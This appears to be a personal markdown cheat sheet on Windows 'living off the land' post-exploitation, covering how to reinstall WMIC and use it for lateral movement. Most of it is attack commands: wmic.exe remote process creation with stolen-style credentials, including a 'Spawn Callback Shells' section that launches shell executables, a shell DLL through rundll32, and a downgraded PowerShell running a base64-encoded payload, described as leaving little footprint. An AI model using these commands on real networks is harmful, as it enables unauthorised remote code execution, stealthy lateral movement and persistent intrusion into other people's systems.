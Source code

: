 # Living off the Land

Search Tag(s): #post-exploitation #lateral-movement #living-off-the-land #windows

## 01 - Command Prompt

### 1.1 - Setup

> [!INFO]
> `wmic.exe` has been deprecated in Windows 11. It still exists to most systems to later versions it may not exist. Stick with PowerShell cmdlet is an viable alternative.

Command prompt installation command.

```
C:\> Dism.exe /Online /Add-Capability /CapabilityName:WMIC~~~~​
```

PowerShell installation command.

```
PS C:\> Add-WindowsCapability -Online -Name WMIC~~~~​
```

### 1.2 - Usage

TODO: Consult cybereason blog post to replicate the attacks (refer to the links)

Execute a WMIC with commands remotely (You'll be relying on this a lot and it leaves a little footprint)

```
C:\> where.exe /r C:\ wmic.exe

C:\> wmic.exe /node:<IP> [/user:<username> /password:<password>] process call create "<commands>"

C:\> wmic.exe /node:<IP> [/user:<username> /password:<password>] win32_process call create "C:\path\to\shell.exe"
```

### 1.3 - Use Cases

#### 1.3.1 - Spawn Callback Shells

```
C:\> wmic.exe /node:<IP> [/user:<username> /password:<password>] process call create "cmd.exe /c <commands>"

C:\> wmic.exe /node:<IP> [/user:<username> /password:<password>] process call create "C:\path\to\shell.exe"

C:\> wmic.exe /node:<IP> [/user:<username> /password:<password>] process call create "rundll32 C:\path\to\shell.dll"

C:\> wmic.exe /node:<IP> [/user:<username> /password:<password>] process call create "C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -v 2 -enc <base64_encoded>"
```
